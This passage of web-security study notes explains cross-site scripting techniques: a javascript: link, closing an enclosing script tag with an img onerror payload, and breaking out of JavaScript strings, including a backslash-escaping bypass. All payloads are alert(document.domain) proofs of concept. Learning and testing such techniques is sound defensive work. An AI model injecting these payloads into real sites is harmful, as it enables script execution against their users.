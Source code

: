 `<a href="javascript:alert(document.domain)">`

__Canonical tag__ - You can exploit this behavior using access keys and user interaction on Chrome. Access keys allow you to provide keyboard shortcuts that reference a specific element. The `accesskey` attribute allows you to define a letter that, when pressed in combination with other keys (these vary across different platforms), will cause events to fire

## XSS into JavaScript

### Terminating the existing script

 it is possible to simply close the script tag that is enclosing the existing JavaScript, and introduce some new HTML tags that will trigger execution of JavaScript. For example, if the XSS context is as follows:

```html
<script>  
...  
var input = 'controllable data here';  
...  
</script>
```

then you can use the following payload to break out of the existing JavaScript and execute your own:

```html
</script><img src=1 onerror=alert(document.domain)>
```

### Breaking out of a JavaScript string

```javascript
'-alert(document.domain)-'  
';alert(document.domain)//

//Encoded
//suppose that the input:

';alert(document.domain)//

//gets converted to:

\';alert(document.domain)//

//You can now use the alternative payload:

\';alert(document.domain)//

//which gets converted to:

\\';alert(document.domain)//

```
